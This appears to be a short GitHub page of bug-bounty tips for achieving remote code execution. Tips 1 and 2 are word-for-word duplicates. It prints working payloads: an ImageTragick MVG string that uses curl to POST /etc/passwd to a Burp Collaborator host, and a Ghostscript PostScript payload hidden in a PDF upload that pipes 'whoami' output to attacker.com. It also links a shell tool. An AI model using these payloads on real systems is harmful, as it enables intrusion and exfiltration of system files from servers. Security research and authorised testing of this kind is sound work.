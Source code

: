 #                                       Finding RCE: Bug bounty Tips

## TIP-1

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
    
## TIP-2 

    If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method.
  
  
## TIP-3 

    Recon to RCE:
    Google "upload" site:”target" -> upload form -> ImageTragick MVG -> RCE

    PoC:
    push graphic-context viewbox 0 0 200 200 fill 'url(https://example.123 "|curl -d "@/etc/passwd" -X POST https://xxx.burpcollaborator.net/test1")' pop graphic-context
    

   [This Tool imgetragick get shell](https://github.com/vishwaraj101/imagetragick)
    
## TIP-4 

   [RCE on PDF upload:](https://twitter.com/huntmost/status/1192670565963911169)

    Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
    Content-Type: application/pdf

    %!PS
    currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
    .putdeviceparams
    quit
    
   [Hackerone report](https://hackerone.com/reports/403417)
   
   
   
   
   
   
